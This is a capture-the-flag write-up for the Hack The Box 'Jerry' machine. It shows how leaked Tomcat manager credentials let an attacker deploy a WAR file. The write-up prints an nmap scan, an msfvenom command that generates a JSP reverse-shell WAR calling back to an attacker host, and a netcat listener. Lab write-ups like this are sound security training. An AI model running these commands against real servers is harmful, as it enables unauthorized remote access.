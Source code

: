 # Hack the box - Jerry

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.95</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Jun 30</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Made by: </span><b>mrh4sh</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.95
```
![Nmap results](./nmap.png)

There is only port 8080 open which indicates Apache Tomcat server.

___

## Web fingerprinting

By visiting web page we could notice Apache Tomcat server:

![Tomacat index page](./index_page.png)

Manager app have admin access:

![Admin access](./admin_htpasswd.png)

If we press "Cancel", web sever reddirects us to http://10.10.10.95:8080/manager/html page, that have credentials leaked:

![Leaked creds](./leaked_creds.png)

After we successfuly login to admin page, we could identify Deploy location that is iteresting place to inject reverse shell:

![Reverse shell upload location](./reverse_shell_upload_location.png)

## Getting reverse shell

From quick google search we could identify that Apache Tomacat uses java tech stack that supports WAR files:

![Tomcat tech stack](./tomcat_tech_stack.png)

msfvenom is convenient tool to generate reverse shell files:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4444 -f war > reverse_shell.war
```

![Generating reverse shell](./getting_reverse_shell.png)

After we use netcat to listen on port 4444 and upload generated shell:

```
nc -lvnp 4444
```

![File upload](./uploaded_shell.png)

![Got reverse shell](./got_rev_shell.png)

As we can see, there is no need for privelege escalation, so we can capture flags ASAP:

![Capturing flags](./flags_capture.png)
